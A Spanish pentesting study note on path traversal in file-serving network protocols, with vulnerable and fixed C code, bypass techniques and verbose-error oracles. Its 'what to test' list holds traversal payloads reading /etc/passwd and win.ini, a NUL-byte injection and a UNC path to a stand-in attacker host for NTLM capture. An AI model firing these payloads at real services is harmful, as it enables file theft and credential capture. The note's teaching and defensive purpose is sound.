

---
tags:
  - Protocolos
  - File-Inclusion
  - Pentesting/Explotacion
Descripción: "Traversal en protocolos de fichero: por qué filtrar antes de canonicalizar nunca funciona, y qué regala un mensaje de error demasiado explícito"
Fecha de actualización: 2026-08-03
Nota previa: "[[06 - Format strings e inyección en servicios de red]]"
Nota siguiente: "[[08 - Fallos de autenticación y autorización en protocolos]]"
Area: "[[Causas raíz de vulnerabilidades.base|Causas raíz de vulnerabilidades]]"
---
---

Todo protocolo que da acceso a recursos —ficheros compartidos, plantillas, adjuntos, actualizaciones de firmware— tiene que traducir un identificador que envía el cliente a un recurso local. Ese paso de traducción es donde se rompe.

## El fallo

```c
void enviar_fichero(int sock) {
    char *nombre = leer_cadena(sock);            // ① controlado
    char ruta[512];
    snprintf(ruta, sizeof(ruta), "/files/%s", nombre);   // ② concatenar
    int fd = open(ruta, O_RDONLY);               // ③ el SO resuelve los ".."
    enviar_todo(sock, fd);
}
```

Con `nombre = "../etc/shadow"`, la ruta pasa por `/files/../etc/shadow` y **el sistema operativo la canonicaliza** a `/etc/shadow` antes de abrirla. La aplicación nunca vio esa ruta final.



<mark style="background: #8000E1A6;">El fallo estructural es filtrar **antes** de canonicalizar</mark>. Cualquier lista negra aplicada sobre la cadena que envía el cliente se enfrenta a un espacio de representaciones que no controla.

Las técnicas de *bypass* son idénticas a las de web y están en [[00 - Introducción a File Inclusion]]. Lo que sí cambia en un servicio binario:

- **No hay URL decoding automático**, así que `%2e%2e%2f` normalmente **no** funciona... salvo que el protocolo haga su propia decodificación en algún punto, que es justo lo que hay que averiguar.
- **Windows acepta `/` y `\` indistintamente.** Un filtro que solo mira `\` (lo «natural» en Windows) se salta con `/`. Y al revés en código portado.
- **Rutas UNC en Windows**: `\\atacante\share\x` convierte un traversal en **SSRF y captura de NTLM** — el servicio se autentica contra tu SMB. Y `\\?\C:\` desactiva la normalización de rutas de Win32 por completo.
- **Enlaces simbólicos.** Aunque filtres los `..`, un enlace dentro del directorio permitido apunta fuera. Se combina además con *race conditions* (TOCTOU: compruebas la ruta, y entre la comprobación y el `open` el enlace cambia).
- **Bytes NUL**: `fichero.txt\0../../etc/passwd` si alguna capa usa longitud explícita y otra terminación en NUL ([[01 - Datos de longitud variable]]).

## Lo correcto

Canonicalizar **primero** y comprobar **después**, sobre la ruta ya resuelta:

```c
char *real = realpath(ruta, NULL);           // resuelve .. y symlinks
if (!real || strncmp(real, "/files/", 7) != 0) { free(real); return -1; }
int fd = open(real, O_RDONLY);
```

Aún mejor, en Linux moderno: **`openat2()` con `RESOLVE_BENEATH`**, que hace cumplir la restricción en el kernel y elimina de raíz el TOCTOU entre la comprobación y la apertura. En Windows, `GetFullPathName` seguido de comparación de prefijo, más un control explícito de rutas UNC.

Y el enfoque que no falla nunca: **no aceptar rutas del cliente en absoluto**. Un identificador opaco (un entero o un UUID) mapeado internamente a la ruta real elimina la clase entera de fallos.

## Escritura: lo que sube la gravedad

Leer ficheros arbitrarios ya es grave. **Escribirlos suele ser RCE directa** ([[06 - Escritura arbitraria y subversión de lógica]]): un fichero en `/etc/cron.d/`, una *webshell* en el raíz del servidor web, una clave en `~/.ssh/authorized_keys`, o sobrescribir un binario o un `.so` que se cargará después.

Si el protocolo tiene una función de subida —actualización de firmware, importación de configuración, adjuntos— **la ruta destino es lo primero que hay que probar**.

## Errores verbosos

```c
if (!existe(ruta)) {
    escribir_error(sock, "File %s doesn't exist", ruta);   // ← ruta absoluta local
}
```

El cliente recibe `/srv/app/data/files/../etc/passwd doesn't exist`. Con eso ya sabe:

- **El directorio base real** en el disco del servidor.
- **Que la concatenación se hace tal cual**, lo que confirma el traversal antes de haberlo conseguido.
- A veces, **el usuario del sistema** (si la ruta cae en un `home`) y la distribución.

La misma familia incluye las trazas de excepción completas, la versión exacta del producto en los banners, los mensajes de error del motor de base de datos, y la diferencia entre «no existe» y «sin permisos» — que es un oráculo para **enumerar el sistema de ficheros** sin leer nada.

> [!important]+ El error como oráculo, incluso sin texto
> Aunque el mensaje sea genérico, sirve si **se distingue del caso normal**: un código de error distinto, un tiempo de respuesta diferente o un tamaño de respuesta distinto permiten enumerar qué ficheros existen. Es el mismo principio que el *padding oracle* ([[03 - Padding Oracle Attacks]]): no hace falta que el servidor te cuente nada, basta con que se comporte distinto.
>
> Al probar, mide **siempre** las tres cosas: contenido, código y tiempo.

La corrección es un error genérico hacia el cliente y el detalle **solo en el log del servidor**, con un identificador de correlación para que soporte pueda investigar sin filtrar nada.

## Qué probar

```text
../../../../etc/passwd
..\..\..\..\windows\win.ini
....//....//etc/passwd            ← si el filtro elimina "../" una sola vez
/etc/passwd                       ← ruta absoluta, por si concatena mal
\\atacante.tld\share\x            ← UNC: SSRF + captura NTLM en Windows
fichero.txt\0../../etc/passwd     ← NUL embebido
%2e%2e%2f                         ← solo si el protocolo decodifica
enlace_simbolico                  ← si puedes crear ficheros en el directorio
```

Y después de cada uno, comparar respuesta, código y tiempo contra la petición legítima.

> [!info]+ Fuentes
> - [CWE-22](https://cwe.mitre.org/data/definitions/22.html) (path traversal), [CWE-41](https://cwe.mitre.org/data/definitions/41.html) (resolución de rutas), [CWE-209](https://cwe.mitre.org/data/definitions/209.html) (información en mensajes de error).
> - [`openat2(2)`](https://man7.org/linux/man-pages/man2/openat2.2.html) — banderas `RESOLVE_BENEATH` y `RESOLVE_NO_SYMLINKS`.
> - [OWASP — Path Traversal](https://owasp.org/www-community/attacks/Path_Traversal).
